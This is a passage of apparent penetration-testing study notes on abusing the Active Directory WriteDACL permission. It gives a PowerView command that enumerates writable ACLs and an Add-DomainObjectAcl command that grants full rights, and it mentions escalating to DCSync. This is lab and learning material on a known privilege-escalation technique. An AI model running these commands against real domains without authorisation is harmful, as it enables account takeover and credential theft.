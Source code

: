 As previously stated, all Active Directory objects have a DACL and one object access right in particular (WriteDACL) grants permission to modify the DACL itself.

Enumerate the misconfiguration:

```
Get-DomainUser | Get-ObjectAcl -ResolveGUIDs | Foreach-Object {$_ | Add-Member -NotePropertyName Identity -NotePropertyValue (ConvertFrom-SID $_.SecurityIdentifier.value) -Force; $_} | Foreach-Object {if ($_.Identity -eq $("$env:UserDomain\$env:Username")) {$_}}
```

If ActiveDirectoryRights included WriteDacl we can use Add-DomainObjectAcl powerview method to add additional rights such as GenericWrite or even DCSync.

![[Pasted image 20210702193528.png]]

```
Add-DomainObjectAcl -TargetIdentity testservice2 -PrincipalIdentity offsec -Rights All
```

